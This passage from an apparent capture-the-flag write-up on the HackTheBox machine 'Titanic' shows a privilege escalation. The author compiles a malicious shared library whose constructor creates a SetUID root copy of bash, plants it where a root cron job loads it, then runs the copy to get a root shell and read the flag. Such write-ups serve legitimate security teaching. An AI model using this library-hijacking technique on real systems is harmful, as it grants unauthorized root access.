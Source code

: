 To get a shell, I’ll make a SetUID / SetGID copy of `bash`:

```

developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/0xdf");
    exit(0);
}
EOF

```

This time I have to wait for the cron to run, as developer doesn’t have the privileges to run it. After the next minute rolls, my `bash` is there:

```

developer@titanic:/opt/app/static/assets/images$ ls -l /tmp/0xdf 
-rwsrwsrwx 1 root root 1396520 Feb 19 20:20 /tmp/0xdf

```

Running it with `-p` gives a root shell and the flag:

```

developer@titanic:/opt/app/static/assets/images$ /tmp/0xdf -p
0xdf-5.1# cat /root/root.txt
aa13708b************************

```